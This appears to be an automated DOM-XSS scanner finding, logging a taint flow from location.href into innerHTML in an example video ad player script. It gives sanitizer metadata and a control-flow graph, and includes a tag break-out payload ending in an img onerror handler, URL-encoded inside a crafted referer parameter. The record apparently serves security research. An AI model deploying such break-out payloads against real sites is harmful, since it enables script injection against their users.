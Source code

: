 // Finding: 7b3be5d6-9f05-4b34-8b0a-d02c274673b4
// Finding.url: https://example50.com/embed/vpaid?token=GQDNXDy%2BWA2jqwLvPPBjJGHxCNEfvNC1rc%2FLu1BMcYf4TPLlEIVnxBAULgMDtiti&ref=viads-example241.com&title=&duration=0&test=0&proxyVars%5Breferer%5D=https%3A%2F%2Fexample241.com%2F2594581%2Fmenedzhment%2Fanaliz_organizatsii_upravleniya_v_ooo_alternativa_%23%23%22%3E%3C%2Fiframe%3E%3C%2Fstyle%3E%3C%2Fscript%3E%3C%2Fobject%3E%3C%2Fembed%3E%3C%2Ftextarea%3E%3Cimg+src%3Dx+onerror%3DtaintfoxLog%28%275af2c48942f34bc4935db351af35d665%27%29%3E%3C%21--%2F%2A&impressionAfterPaid=1&muteVisibleCheck=1&vl=1&es=1&mvver=1661
// Finding.parentloc: example24.com
// Finding.domain: example50.com
// Finding.base_domain: example50.com
// Finding.source: location.href
// Finding.sink: innerHTML
// Sanitizer.score: 5
// Sanitizer.name: _onAdWrapperLoading
// Sanitizer.location: https://example50.com/embed/player/1661/mvplayer.min.js - _onAdWrapperLoading:1:508569
// Finding.begin: 156
// Finding.end: 847
// Finding.original_uuid: f6c2ec82-3e56-4b19-b876-cef67a6c08ac
// Finding.TwentyFiveMillionFlowsId: 2066396071
// Finding.script: https://example50.com/embed/player/1661/mvplayer.min.js
// Finding.line: 1
// Exploit.uuid: 5af2c489-42f3-4bc4-935d-b351af35d665
// Exploit.success: false
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: onclick
// Exploit.quote_type: "
// Exploit.tag: a
// Exploit.break_out: #"></iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: #"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 0
// Exploit.end_taint_url: 92
// Exploit.replace_begin_url: 92
// Exploit.replace_end_url: 92
// Exploit.replace_begin_param: 407
// Exploit.replace_end_param: 407
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: true
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: true
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: -331133711
// DepGraph.sanitizer_hash: 474964005
// Part of the URL ('https%3A%2F%2Fexample50.com%2Fembed%2Fvpaid%3Ftoken%3DGQDNXDy%252BWA2jqwLvPPBjJGHxCNEfvNC1rc%252FLu1BMcYf4TPLlEIVnxBAULgMDtiti%26ref%3Dviads-example241.com%26title%3D%26duration%3D0%26test%3D0%26proxyVars%255Breferer%255D%3Dhttps%253A%252F%252Fexample241.com%252F2594581%252Fmenedzhment%252Fanaliz_organizatsii_upravleniya_v_ooo_alternativa_%2523%2523%2522%253E%253C%252Fiframe%253E%253C%252Fstyle%253E%253C%252Fscript%253E%253C%252Fobject%253E%253C%252Fembed%253E%253C%252Ftextarea%253E%253Cimg%2Bsrc%253Dx%2Bonerror%253DtaintfoxLog%2528%25275af2c48942f34bc4935db351af35d665%2527%2529%253E%253C%2521--%252F%252A%26impressionAfterPaid%3D1%26muteVisibleCheck%3D1%26vl%3D1%26es%3D1%26mvver%3D1661') found in right hand side of replace 
// Approximated Implementation for: replace([&<>]/g: 1, s: 0, u: 0, m: 0, i: 0 [escapes(<: 1, >: 1, &: 1), function_rhs: true], 'function(e){return o[e]||e}') - Other Exception: ReferenceError: o is not defined 
digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="encodeURIComponent"];
n2 [shape=box, label="Var: x"];
n3 [shape=ellipse, label="str_replace_once"];
n4 [shape=box, label="Lit: {{MV_2_1621082651575_MV}}"];
n5 [shape=box, label="Lit: https%3A%2F%2Fexample50.com%2Fembed%2Fvpaid%3Ftoken%3DGQDNXDy%252BWA2jqwLvPPBjJGHxCNEfvNC1rc%252FLu1BMcYf4TPLlEIVnxBAULgMDtiti%26ref%3Dviads-example241.com%26title%3D%26duration%3D0%26test%3D0%26proxyVars%255Breferer%255D%3Dhttps%253A%252F%252Fexample241.com%252F2594581%252Fmenedzhment%252Fanaliz_organizatsii_upravleniya_v_ooo_alternativa_%2523%2523%2522%253E%253C%252Fiframe%253E%253C%252Fstyle%253E%253C%252Fscript%253E%253C%252Fobject%253E%253C%252Fembed%253E%253C%252Ftextarea%253E%253Cimg%2Bsrc%253Dx%2Bonerror%253DtaintfoxLog%2528%25275af2c48942f34bc4935db351af35d665%2527%2529%253E%253C%2521--%252F%252A%26impressionAfterPaid%3D1%26muteVisibleCheck%3D1%26vl%3D1%26es%3D1%26mvver%3D1661"];
n6 [shape=box, label="Var: x"];
n7 [shape=ellipse, label="str_replace_once"];
n8 [shape=box, label="Lit: http:"];
n9 [shape=box, label="Lit: https:"];
n10 [shape=box, label="Var: x"];
n11 [shape=ellipse, label="str_replace_once"];
n12 [shape=box, label="RegExp: /^[	\n\r   ᠎             　\u2028\u2029﻿][	\n\r   ᠎             　\u2028\u2029﻿]*/"];
n13 [shape=box, label="Lit: "];
n14 [shape=box, label="Var: x"];
n15 [shape=ellipse, label="str_replace_once"];
n16 [shape=box, label="RegExp: /[	\n\r   ᠎             　\u2028\u2029﻿][	\n\r   ᠎             　\u2028\u2029﻿]*$/"];
n17 [shape=box, label="Lit: "];
n18 [shape=box, label="Var: x"];
n19 [shape=ellipse, label="."];
n20 [shape=box, label="Lit: https://ad.example385.com/vast/389706?pr=6450695&amp;sc=2453573471&amp;"];
n21 [shape=ellipse, label="preg_replace"];
n22 [shape=box, label="RegExp: /[&<>]/"];
n23 [shape=box, label="Lit: "];
n24 [shape=box, label="Var: x"];
n25 [shape=box, label="Var: x"];
n26 [shape=doubleoctagon, label="Return: x"];
n2 -> n0;
n1 -> n2;
n6 -> n1;
n3 -> n4;
n3 -> n5;
n3 -> n6;
n10 -> n3;
n7 -> n8;
n7 -> n9;
n7 -> n10;
n14 -> n7;
n11 -> n12;
n11 -> n13;
n11 -> n14;
n18 -> n11;
n15 -> n16;
n15 -> n17;
n15 -> n18;
n19 -> n20;
n19 -> n15;
n24 -> n19;
n21 -> n22;
n21 -> n23;
n21 -> n24;
n25 -> n21;
n26 -> n25;
}